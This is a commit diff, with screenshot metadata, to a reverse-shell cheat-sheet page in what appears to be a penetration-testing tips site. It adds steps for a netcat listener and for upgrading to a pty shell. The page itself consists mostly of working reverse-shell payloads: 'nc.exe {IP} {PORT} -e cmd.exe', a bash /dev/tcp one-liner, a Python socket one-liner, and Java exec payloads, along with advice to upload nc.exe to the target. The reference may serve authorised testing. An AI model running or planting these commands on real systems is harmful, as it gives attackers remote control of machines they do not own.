

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/reverse-shell.md, in a window 1280 px wide and 1400 px high, scrolled down 301 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add notes on reverse shells

````diff
--- a/docs/reverse-shell.md
+++ b/docs/reverse-shell.md
@@ -6,7 +6,11 @@ with a couple `IP:port` the server can access. Then, on your local machine you o
 a listener with `netcat`:
 
 ## On local machine
+
+### Listen with NetCat
+
 To listen for an incoming connection and upgrade to a pty shell:
+
 ```bash
 nc -lvnp {PORT}
 
@@ -14,32 +18,53 @@ nc -lvnp {PORT}
 python -c 'import pty; pty.spawn("/bin/bash")'
 ```
 
+> On macOS use the `netcat` from [homebrew](https://formulae.brew.sh/formula/netcat)
+> instead of the one provided by the OS
+
+
+### Upgrade the shell
+
 Then, `Ctrl-Z` to suspend the connection and return to your own terminal.
 Type on your terminal:
+
 ```bash
 stty raw -echo
 ```
 
 The console should be black, next foreground the shell with:
+
 ```bash
 fg
 reset
 ```
 
-On target host
-```
+On target host:
+
+```bash
 export SHELL=bash
 export TERM=xterm-256color
 stty rows 24 columns 80
 ```
 
+Now you should have a complete shell with shortcuts available.
+
 
 ## On the remote server
 
 ### Windows
+
+Upload [`nc.exe`](/assets/nc.exe) (or [`nc64.exe`](/assets/nc64.exe)) on the
+remote server then use the command (same as [NetCat](#netcat)):
+
 ```bash
-> cmd.exe /C <cmd>
+cmd.exe /C "nc.exe {IP} {PORT} -e cmd.exe"
 ```
+
+
+### PowerShell
+
+This is explain in the [Windows / Download and execute script section](windows.md#download-and-execute-script).
+
 
 ### Python
 ```bash
@@ -50,6 +75,11 @@ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOC
 ```bash
 bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
 ```
+
+> To use the bash's built-in `/dev/tcp` device file the use must use `/bin/bash`
+> as shell. Often it uses `sh` or `dash`, then you can use `bash -c "<cmd>"` to
+> force the `bash`
+
 
 ### Netcat
 ```bash
@@ -62,7 +92,7 @@ r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
 String[] cmd={"cmd","/C","<cmd>"};Runtime.getRuntime().exec(cmd);
 ```
 
-This payload can also work with `BeanShell` scripts.
+> This payload can also work with `BeanShell` scripts.
 
 
 ### PHP
````
Also changed, not shown: docs/windows.md (+3 -3 lines), 2 other files.
